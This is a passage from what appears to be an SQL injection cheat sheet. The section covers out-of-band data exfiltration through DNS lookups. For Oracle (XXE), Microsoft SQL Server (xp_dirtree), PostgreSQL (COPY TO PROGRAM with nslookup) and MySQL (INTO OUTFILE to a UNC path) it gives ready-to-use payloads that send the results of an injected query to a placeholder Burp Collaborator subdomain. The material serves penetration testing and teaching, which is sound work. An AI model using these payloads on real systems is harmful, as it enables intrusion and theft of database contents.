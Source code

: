 DNS lookup with data exfiltration
---------------------------------

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

<table>
<tr>
    <td><strong>Oracle</td>
    <td>SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual 
 </td>
</tr>
<tr>
    <td><strong>Microsoft</td>
    <td>declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')</td>
</tr>
<tr>
    <td><strong>PostgreSQL</td>
    <td>
 create OR replace function f() returns void as $$<br><br>                    declare c text;<br><br>                    declare p text;<br><br>                    begin<br><br>                    SELECT into p (SELECT YOUR-QUERY-HERE);<br><br>                    c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.BURP-COLLABORATOR-SUBDOMAIN''';<br><br>                    execute c;<br><br>                    END;<br><br>                    $$ language plpgsql security definer;<br><br>                    SELECT f(); 	</td>
</tr>
<tr>
    <td><strong>MySQL</td>
    <td>The following technique works on Windows only: <br>
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</td>
</tr>
</table>